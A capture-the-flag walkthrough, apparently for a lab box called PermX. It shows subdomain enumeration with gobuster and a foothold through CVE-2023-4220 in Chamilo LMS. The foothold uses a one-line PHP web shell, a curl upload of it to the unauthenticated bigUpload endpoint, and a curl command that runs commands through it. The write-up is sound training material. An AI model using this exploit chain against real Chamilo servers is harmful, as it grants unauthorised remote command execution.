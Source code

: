 ```
10.10.11.23 permx.htb
```

- For the next phase of reconnaissance, we should try scanning for subdomains. The tool I use for this is Gobuster, which has the following syntax:

    ```
    gobuster vhost -w /path/to/wordlist.txt -u http://victim_url.fun --append-domain
    ```

    - If you don't know where to get a wordlist for gobuster, checkout SecLists: https://github.com/danielmiessler/SecLists

- After letting gobuster scan for subdomains, you may find a new URL: http://lms.permx.htb. A login page for Chamilo.

## Establishing a foothold

### XSS

Next, we should search the internet for known chamilo lms exploits. I found the following advisory (CVE-2023-4220): https://starlabs.sg/advisories/23/23-4220/

The bulletin states that Chamilo is PHP based, and confirms a vulnerability that allows an unauthenticated user to upload files to '/main/inc/lib/javascript/bigupload/files'. The bulletin also provides a blueprint for our attack in their proof of concept:

- We start by creating a simple PHP script on our attack machine that uses the system() function to execute commands passed to the 'cmd' parameter through the HTTP GET method. I'll name mine webshell.php

    #### webshell.php

    ```PHP
    <?php echo system($_GET["cmd"])?>
    ```

- Next, from our attack machine, we'll use curl to upload webshell.php.

    #### Terminal

    ```bash
    curl -F 'bigUploadFile=@webshell.php' 'http://lms.permx.htb/main/inc/lib/javascript/bigupload/inc/bigUpload.php?action=post-unsupported'
    ```

    - You should receive the following output: The file has successfully been uploaded.

- Let's test our webshell by passing the 'cmd' parameter a basic command like 'ls' to list the current directory.

    #### Terminal

    ```bash
    curl 'http://lms.permx.htb/main/inc/lib/javascript/bigupload/files/webshell.php?cmd=ls'
    ```
